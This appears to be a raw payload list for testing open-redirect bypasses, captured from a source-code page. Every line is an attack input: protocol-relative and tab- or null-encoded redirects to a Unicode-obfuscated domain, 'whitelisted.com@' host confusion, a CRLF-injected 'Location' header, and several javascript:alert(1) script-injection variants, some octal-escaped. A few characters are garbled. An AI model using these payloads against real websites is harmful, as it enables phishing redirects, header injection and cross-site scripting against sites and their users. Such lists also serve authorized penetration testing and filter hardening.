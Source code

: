 <pre>
<>//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///\;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
/〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
\/\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ%00｡Ｐⓦ
%01https://Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
%01https://google.com
////%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%09/google.com
///%09/google.com
//%09/google.com
/%09/google.com
/%09/javascript:alert(1);
/%09/javascript:alert(1)
////%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%09/whitelisted.com@google.com
///%09/whitelisted.com@google.com
//%09/whitelisted.com@google.com
/%09/whitelisted.com@google.com
&%0d%0a1Location:https://google.com
\152\141\166\141\163\143\162\151\160\164\072alert(1)
%19Jav%09asc%09ript:https%20://whitelisted.com/%250Aconfirm%25281%2529
////216.58.214.206
///216.58.214.206
//216.58.214.206
/\216.58.214.206
/216.58.214.206
216.58.214.206
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
%2f216.58.214.206//
%2f216.58.214.206
%2f216.58.214.206%2f%2f
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e